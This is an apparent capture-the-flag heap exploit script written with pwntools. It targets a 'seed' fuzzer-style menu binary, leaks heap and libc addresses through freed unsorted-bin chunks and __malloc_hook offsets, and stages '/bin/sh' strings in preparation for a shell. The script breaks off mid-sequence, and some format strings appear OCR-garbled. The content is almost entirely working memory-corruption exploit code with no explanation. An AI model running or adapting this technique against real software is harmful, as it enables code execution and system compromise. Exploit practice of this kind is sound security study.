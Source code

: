 ```
for i in range(1):
    delete_seed(i)

add_seed(0)  # 0
mutate_seed(0)
p.recvuntil("realloc(")
heap_address = int(p.recvuntil(",", drop=True), 16)
log.success("heap address is `{``}`".format(hex(heap_address)))

add_seed(0x17, b"a" * 0x17)  # 0
if debug:
    add_seed(0x70 + 0x400, b"a")  # 1
else:
    add_seed(0x80 + 0x400, b"a")  # 1

add_seed(0x17, b"a" * 0x17)  # 2

delete_seed(1)  # unsorted bin # 0x5a0
delete_seed(2)
delete_seed(0)  # 0x3a0

if debug:
    gdb.attach(p, "b *$rebase(0x7000)\nb *$rebase(0x1FB90)")
    log.success("heap address is `{``}`".format(hex(heap_address)))
    log.success("libc address is `{``}`".format(hex(libc.address)))
fuzz()

add_seed(0)

mutate_seed(0)

if debug:
    show_address = heap_address + 0x8f0 + 0x50

else:
    show_address = heap_address + 0x3a0

add_seed(0x10, p64(show_address))  # 0
add_seed(0x8, b"a")  # 1
add_seed(0x8, b"a")  # 2
add_seed(0x40, b"a")  # 3
log.success("show address is `{``}`".format(hex(show_address)))

show_seed()
p.recvuntil("2: ")
libc.address = u64(p.recvline().strip().ljust(8, b"\x00")) - 96 - 0x10 - libc.sym['__malloc_hook']
log.success("libc address is `{``}`".format(hex(libc.address)))

add_seed(0x8, b"a" * 0x8)  # 4 = 2
if debug:
    add_seed(0x20, b"/bin/sh\x00")  # 5
    add_seed(0x20, b"/bin/sh\x00")  # 6
else:
    add_seed(0xc0, b"/bin/sh\x00")  # 5
add_seed(0x8, b"a" * 0x8)  # 6

if debug:
    delete_seed(6)
else:
    delete_seed(7)
fuzz()
delete_seed(4)
delete_seed(2)
```